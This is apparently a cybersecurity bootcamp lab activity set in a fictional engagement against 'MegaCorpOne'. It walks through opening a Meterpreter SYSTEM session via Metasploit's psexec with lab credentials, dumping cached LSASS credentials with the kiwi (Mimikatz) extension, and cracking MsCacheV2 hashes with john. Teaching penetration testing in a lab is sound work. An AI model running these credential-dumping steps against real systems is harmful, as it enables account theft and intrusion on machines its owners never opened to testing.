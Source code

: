 ## Activity File: Credential Dumping

In this activity, you will continue to play the role of a pentester conducting an engagement on MegaCorpOne. You have now been tasked to use the Metasploit `kiwi` extension to dump the credentials that are cached on the WIN10 machine. Then you will save and crack the hashes using `john`.

⚠️ **Reminder** - Don't forget to save your findings, as you will add them to your week 17 Homework!


### Instructions

First, open a Meterpreter session as SYSTEM on WIN10 by performing the following steps (if a current Meterpreter SYSTEM session isn't already opened).

1. Load the `psexec` module. `use exploit/windows/smb/psexec`

2. Set the following parameters:

	- `set RHOSTS 172.22.117.20`
	
	- `set SMBUSER tstark`
	
	- `set SMBPass Password!`
	
	- `set SMBDomain megacorpone`
	
	- `set LHOST 172.22.117.100`
	
	- ![A screenshot depicts the results of the command.](../../../Images/psexecoptions.PNG)
	
3. Run the module with `run`

	- ![A screenshot depicts the results of the command.](../../../Images/runpsexec.PNG)
 - 
4. In your Meterpreter session, load the `kiwi` extension.

     - `load kiwi`

5. Once a new extension is loaded into Metasploit, it will update the help menu. View the `kiwi` command options by calling the help menu in Meterpreter.

     - `?`

6. Dump all of the cached credentials from LSASS using a `kiwi_cmd` command. Reference the following cheatsheet for Mimikatz. Pay attention to the "lsadump" section. 
	
     - [Mimikatz Cheatsheet](https://gist.github.com/insi2304/484a4e92941b437bad961fcacda82d49)

     **Note**: If the `kiwi` command is not dumping credentials as expected, try migrating to another process using the `migrate` command. Keep in mind that you'll want to migrate to another SYSTEM x64 process.

7. In the output, the hashes are displayed after the 'MsCacheV2 field'. MsCacheV2 is just the format of the hash. Save the hashes in the format `username:password`, as shown below.

	![A screenshot depicts the format of the hashes.](../../../Images/hashformat.PNG)
	
	Using `john`, attempt to crack the password. Your `john` command should use the flag --format=mscash2, e.g. `john --format=mscash2 hashes.txt`

8. You should now have the plaintext password to the new account, 'bbanner'.
                                                                                                                               
---
© 2022 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.




